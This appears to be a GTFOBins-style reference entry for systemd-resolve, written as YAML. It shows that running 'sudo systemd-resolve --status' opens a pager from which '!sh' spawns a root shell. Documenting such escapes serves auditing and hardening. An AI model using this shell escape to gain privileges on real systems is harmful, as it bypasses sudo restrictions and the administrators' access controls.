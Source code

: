 functions:
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo systemd-resolve --status
        !sh
---
